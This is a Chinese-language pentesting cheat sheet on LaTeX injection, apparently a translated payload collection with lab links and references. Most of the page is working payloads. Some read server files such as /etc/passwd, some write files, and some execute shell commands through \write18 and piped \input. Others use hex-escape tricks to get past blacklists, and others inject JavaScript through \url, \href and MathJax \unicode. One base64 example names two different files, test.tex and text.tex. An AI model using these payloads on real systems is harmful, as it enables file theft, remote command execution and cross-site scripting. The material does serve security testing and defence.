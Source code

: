 # LaTeX 注入

> LaTeX 注入是一种注入攻击类型，其中恶意内容被注入到 LaTeX 文档中。LaTeX 广泛用于文档准备和排版，特别是在学术界，用于生成高质量的科学和数学文档。由于其强大的脚本功能，如果未采取适当的保护措施，LaTeX 可以被攻击者利用来执行任意命令。

## 概要

* [文件操作](#文件操作)
    * [读取文件](#读取文件)
    * [写入文件](#写入文件)
* [命令执行](#命令执行)
* [跨站脚本攻击](#跨站脚本攻击)
* [实验室](#实验室)
* [参考文献](#参考文献)

## 文件操作

### 读取文件

攻击者可以读取服务器上敏感文件的内容。

读取文件并解释其中的 LaTeX 代码：

```tex
\input{/etc/passwd}
\include{somefile} # 加载 .tex 文件 (somefile.tex)
```

读取单行文件：

```tex
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```

读取多行文件：

```tex
\lstinputlisting{/etc/passwd}
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

读取文本文件，**不**解释内容，只会粘贴原始文件内容：

```tex
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```

如果注入点位于文档头之后（不能使用 `\usepackage`），可以通过禁用某些控制字符来在包含 `$`、`#`、`_`、`&`、空字节等的文件中使用 `\input`。

```tex
\catcode `\$=12
\catcode `\#=12
\catcode `\_=12
\catcode `\&=12
\input{path_to_script.pl}
```

要绕过黑名单，尝试用该字符的 Unicode 十六进制值替换它。

* `^^41` 表示大写字母 A
* `^^7e` 表示波浪号 (~)，注意 'e' 必须小写

```tex
\lstin^^70utlisting{/etc/passwd}
```

### 写入文件

写入单行文件：

```tex
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\write\outfile{Line 2}
\write\outfile{I like trains}
\closeout\outfile
```

## 命令执行

命令的输出将重定向到标准输出，因此需要使用临时文件来获取结果。

```tex
\immediate\write18{id > output}
\input{output}
```

如果遇到任何 LaTeX 错误，请考虑使用 base64 来获取结果而不包含不良字符（或使用 `\verbatiminput`）：

```tex
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```

```tex
\input|ls|base64
\input{|"/bin/hostname"}
```

## 跨站脚本攻击

来自 [@EdOverflow](https://twitter.com/intigriti/status/1101509684614320130)

```tex
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```

在 [mathjax](https://docs.mathjax.org/en/latest/input/tex/extensions/unicode.html)

```tex
\unicode{<img src=1 onerror="<ARBITRARY_JS_CODE>">}
```

## 实验室

* [Root Me - LaTeX - 输入](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Input)
* [Root Me - LaTeX - 命令执行](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Command-execution)

## 参考文献

* [用 LaTeX 黑客技术 - Sebastian Neef - 2016年3月10日](https://0day.work/hacking-with-latex/)
* [从 LaTeX 到 RCE，私人漏洞奖励计划 - Yasho - 2018年7月6日](https://medium.com/bugbountywriteup/latex-to-rce-private-bug-bounty-program-6a0b5b33d26a)
* [感谢 LaTeX 攻击同事 - scumjr - 2016年11月28日](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)